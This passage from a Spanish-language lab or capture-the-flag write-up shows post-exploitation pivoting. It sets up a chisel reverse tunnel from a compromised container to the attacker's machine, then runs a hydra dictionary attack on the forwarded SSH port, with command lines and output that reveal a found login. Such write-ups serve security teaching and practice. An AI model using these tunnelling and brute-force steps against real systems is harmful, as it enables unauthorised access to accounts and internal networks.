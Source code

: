 Vemos que está abierto el puerto 22/TCP (SSH) cosa que no está de forma externa en la máquina 172.17.0.1, que supongo que será la máquina víctima.

## Reverse Port Forwarding
Para trabajar de forma cómoda y poder utilizar `hydra` para hacer un ataque por diccionario. Voy a utilizar `chisel` para hacer reverse port-forwarding.

 ![Write-up Image](images/Screenshot_17.png)Para ello, con `pwncat-cs` (lo estoy probando :) ) nos compartimos el `chisel`

En nuestro equipo nos ponemos en escucha con `chisel` por el puerto `1234`
```shell
$ sudo /opt/chisel/chisel server --reverse -p 1234
```

**Importante tener permisos de `root` para esto ya que vamos a utilizar el puerto local 22, y para ello se necesita permisos de superusuario (hasta el puerto 1024)**

Ahora en la máquina víctima..
```shell
(remote) www-data@6d4489211cb5:/tmp$ ./chisel client 10.10.14.91:1234 R:22:172.17.0.1:22
```

Ahora podemos comprobar en nuestra máquina de atacante, que nuestro puerto local 22 es el puerto 22 de la máquina 172.17.0.1.
```shell
$ nmap -p22 127.0.0.1 -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-06 21:56 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00020s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9c:86:6a:02:bf:45:06:52:6c:29:1d:a0:4e:9e:4a:df (RSA)
|   256 98:3e:0d:0c:17:d3:2d:98:5f:a2:89:0c:b6:22:9b:33 (ECDSA)
|_  256 03:51:c3:e8:7a:b3:6e:c6:0c:67:50:ef:b0:b4:e0:37 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Foothold
Ahora con `hydra` podemos hacer un ataque por diccionario y...
```shell
$ hydra -L users.txt -P passwords.txt 127.0.0.1 ssh -t 4 -I -V
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-06 21:57:55
[DATA] max 4 tasks per 1 server, overall 4 tasks, 21 login tries (l:7/p:3), ~6 tries per task
[DATA] attacking ssh://127.0.0.1:22/
[ATTEMPT] target 127.0.0.1 - login "janit" - pass "jeO09ufhWD<s" - 1 of 21 [child 0] (0/0)
[ATTEMPT] target 127.0.0.1 - login "janit" - pass "bZ89h}V<S_DA" - 2 of 21 [child 1] (0/0)
[ATTEMPT] target 127.0.0.1 - login "janit" - pass ")SQWGm>9KHEA" - 3 of 21 [child 2] (0/0)
[ATTEMPT] target 127.0.0.1 - login "saul" - pass "jeO09ufhWD<s" - 4 of 21 [child 3] (0/0)
[22][ssh] host: 127.0.0.1   login: saul   password: jeO09ufhWD<s
```